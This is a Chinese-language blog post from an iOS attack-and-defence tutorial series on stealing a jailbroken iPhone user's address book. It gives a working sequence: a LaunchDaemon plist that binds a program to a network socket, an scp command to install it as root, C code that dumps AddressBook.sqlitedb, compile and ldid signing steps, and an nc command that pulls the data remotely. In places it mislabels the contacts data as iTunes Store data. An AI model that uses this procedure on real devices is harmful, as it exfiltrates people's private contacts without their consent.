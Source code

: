 title: iOS攻防——（二）如何窃取用户的通讯录信息
date: 2016-07-12 21:31:24
tags:

  - iOS
  - iOS攻防
categories:
  - iOS
  - iOS攻防
---

# 说明
2016年7月15更新，最近试了一下，发现用nc拿不到数据了，拿数据的代码是没有问题的，直接运行可以拿到数据，但是从mac通过IP和端口拿到的.sqlitedb文件是空文件，博主也正在看为什么~大家有兴趣可以一起找一下原因。

# 简介
本文章基于念茜的iOS攻防系列。
本文将会讲解如何窃取用户的通讯录信息。
同样在越狱手机环境下。

# hack
## 1. 需要一个plist
需要这样一个plist，它看起来是这样：

![](https://raw.githubusercontent.com/summertian4/Images/master/blog/blog_iOS%E6%94%BB%E9%98%B2%E2%80%94%E2%80%94%EF%BC%88%E4%BA%8C%EF%BC%89%E5%A6%82%E4%BD%95%E7%AA%83%E5%8F%96%E7%94%A8%E6%88%B7%E7%9A%84iTunesstore%E4%BF%A1%E6%81%AF-01.png)

<!--more-->

源文件是这样：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
	<key>Program</key>
	<string>/usr/bin/hack</string>
	<key>StandardErrorPath</key>
	<string>/dev/null</string>
	<key>SessionCreate</key>
	<true/>
	<key>ProgramArguments</key>
	<array>
		<string>/usr/bin/hack</string>
	</array>
	<key>inetdCompatibility</key>
	<dict>
		<key>Wait</key>
		<false/>
	</dict>
	<key>Sockets</key>
	<dict>
		<key>Listeners</key>
		<dict>
			<key>SockServiceName</key>
			<string>55</string>
		</dict>
	</dict>
</dict>
</plist>

```

SockServiceName指的是通信名称
将plist文件传送到至iPhone/System/Library/LaunchDaemons/ 下 

```
scp /Users/zhoulingyu/Desktop/hack.plist root@192.168.31.152:/System/Library/LaunchDaemons/hack.plist
```



## 2. 了解一下OS X的启动原理

> 1. mac固件激活，初始化硬件，加载BootX引导器。
> 2. BootX加载内核与内核扩展(kext)。
> 3. 内核启动launchd进程。
> 4. launchd根据/System/Library/LaunchAgents、/System/Library/LaunchDaemons、/Library/LaunchDaemons、Library/LaunchAgents、~/Library/LaunchAgents里的plist配置，启动服务守护进程

解释一下：
> LaunchDaemons是用户未登陆前就启动的服务（守护进程）
> LaunchAgents是用户登陆后启动的服务（守护进程）

几个目录下plist文件格式及每个字段的含义：

| Key | Description | Required
| :-------------: | :------------- | :-----: |
| Label | The name of the job | yes |
| ProgramArguments | Strings to pass to the program when it is executed | yes |
| UserName | The job will be run as the given user, who may not necessarily be the one who submitted it to launchd. | no |
| inetdCompatibility | Indicates that the daemon expects to be run as if it were launched by inetd | no |
| Program | The path to your executable. This key can save the ProgramArguments key for flags and arguments. | no |
| onDemand | A boolean flag that defines if a job runs continuously or not | no |
| RootDirectory | The job will be?chrooted?into another directory | no |
| ServiceIPC | Whether the daemon can speak IPC to launchd | no |
| WatchPaths | Allows launchd to start a job based on modifications at a file-system path | no |
| QueueDirectories | Similar to WatchPath, a queue will only watch an empty directory for new files | no |
| StartInterval | Used to schedule a job that runs on a repeating schedule. Specified as the number of seconds to wait between runs. | no |
| StartCalendarInterval | Job scheduling. The syntax is similar to cron. | no |
| HardResourceLimits | Controls restriction of the resources consumed by any job | no |
| LowPriorityIO | Tells the kernel that this task is of a low priority when doing file system I/O | no |
| Sockets | An array can be used to specify what socket the daemon will listen on for launch on demand | no |

iOS基本类似，我基本是参照这个来的。

所以上面的plist实际上是要求系统启动一个进程。
一个名为`hack`的进程，可执行文件的路径是/usr/bin/hack。

## 3. 编写读取通讯录数据程序
iTunes Store的数据都在`/var/mobile/Library/AddressBook/AddressBook.sqlitedb`中，只要能能拿出AddressBook.sqlitedb就可以非法拿到用户的数据。


那么现在编写一个程序：

```c
#include <stdio.h>   
#include <fcntl.h>   
#include <stdlib.h>   
   
#define FILE "/var/mobile/Library/AddressBook/AddressBook.sqlitedb"   
   
int main(){   
    int fd = open(FILE, O_RDONLY);   
    char buf[128];   
    int ret = 0;   
       
    if(fd < 0)   
        return -1;   
    while (( ret = read(fd, buf, sizeof(buf))) > 0){   
        write( fileno(stdout), buf, ret);   
    }   
    close(fd);   
    return 0;   
}  
```

用同样的方法编译、传输：

```
xcrun -sdk iphoneos clang -arch armv7 -o hack hack.c
```

签名：

```
ldid -S hack
mv hack /usr/bin
```

## 4. 抓取 iTunesstore 数据信息
利用netcat，指定之前定义的服务名称，抓取设备 iTunesstore 信息：

```
nc 192.168.31.152 55 > itunesstored2.sqlitedb
```

OK，在MAC查看一下内容。

----

有什么问题都可以在博文后面留言，或者微博上私信我，或者邮件我 <coderfish@163.com>。

博主是 iOS 妹子一枚。

希望大家一起进步。

我的微博：[小鱼](http://weibo.com/coderfish/)


